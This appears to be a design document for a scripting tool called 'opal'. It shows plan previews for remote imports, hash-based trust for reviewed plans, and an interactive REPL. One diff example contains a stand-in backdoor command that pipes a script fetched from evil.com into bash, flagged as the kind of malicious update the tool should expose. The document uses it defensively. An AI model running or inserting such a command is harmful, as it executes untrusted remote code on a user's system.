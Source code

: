 **Safe remote code:**

```bash
opal> import "https://example.com/deploy.opl"
opal> plan setup()

Plan: a3b2c1d4
  1. @shell("apt-get update")
  2. @shell("apt-get install -y docker.io")
  3. @file.write("/etc/docker/daemon.json", ...)
  
⚠️  This plan will:
  - Install packages: docker.io
  - Modify system file: /etc/docker/daemon.json
  
Execute? [y/N]
```

**Hash-based trust:**

Plans have deterministic hashes:
- Community can vouch for plan hashes
- Verify you're running the same plan others reviewed
- Differential analysis on updates

```bash
opal> import "https://example.com/script.opl" --update
⚠️  New version detected

opal> diff old-plan new-plan
+ Added: @shell("curl evil.com/backdoor.sh | bash")  # 🚨
```

---

## Tooling Enhancements

### Interactive REPL (⚙️ Feasible)

**Full example with interactive mode:**

```bash
$ opal
opal> fun deploy(env: String) {
...     @shell("kubectl apply -f k8s/@var.env/")
...   }
Function 'deploy' defined

opal> deploy("staging")
✓ Executed successfully

opal> @env.USER
"adavies"
```
